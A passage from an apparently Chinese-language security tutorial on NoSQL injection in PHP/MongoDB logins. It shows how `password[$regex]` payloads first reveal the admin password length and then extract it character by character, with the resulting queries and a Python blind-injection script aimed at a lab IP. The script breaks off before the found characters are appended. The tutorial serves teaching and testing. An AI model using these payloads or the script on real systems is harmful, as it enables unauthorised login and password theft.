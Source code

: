 在 `password[$regex]=.{6}` 时可以成功登录，但在 `password[$regex]=.{7}` 时登录失败，说明该 whoami 用户的密码长度为 6。

提交的数据进入 PHP 后的数据如下：

```sql
array(
    'username' => 'admin',
    'password' => array('$regex' => '.{6}')
)
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({'username':'admin', 'password':{$regex:'.{6}'}})
{ "_id" : ObjectId("60fa9c7b257f18542b68c4b8"), "username" : "admin", "password" : "123456" }
> db.users.find({'username':'admin', 'password':{$regex:'.{7}'}})
>
```

由于 whoami 用户的 password 长度为 6，所以查询条件 `{'username':'admin', 'password':{$regex:'.{6}'}}` 为真，便能成功登录，而 `{'username':'admin', 'password':{$regex:'.{7}'}}` 为假，自然也就登录不了。

知道 password 的长度之后我们便可以逐位提取 password 的字符了：

```sql
username=admin&password[$regex]=1.{5}
username=admin&password[$regex]=12.{4}
username=admin&password[$regex]=123.{3}
username=admin&password[$regex]=1234.{2}
username=admin&password[$regex]=12345.*
username=admin&password[$regex]=123456
或
username=admin&password[$regex]=^1
username=admin&password[$regex]=^12
username=admin&password[$regex]=^123
username=admin&password[$regex]=^1234
username=admin&password[$regex]=^12345
username=admin&password[$regex]=^123456
```

下面给出一个 MongoDB 盲注脚本：

```python
import requests
import string

password = ''
url = 'http://192.168.226.148/index.php'

while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:

            # When the method is GET
            get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
            # When the method is POST
            post_payload = {
                "username": "admin",
                "password[$regex]": '^' + password + c
            }
            # When the method is POST with JSON
            json_payload = """{"username":"admin", "password":{"$regex":"^%s"}}""" % (password + c)
            #headers = {'Content-Type': 'application/json'}
            #r = requests.post(url=url, headers=headers, data=json_payload)    # 简单发送 json

            r = requests.post(url=url, data=post_payload)
            if 'Login Success' in r.text:
                print("[+] %s" % (password + c))
```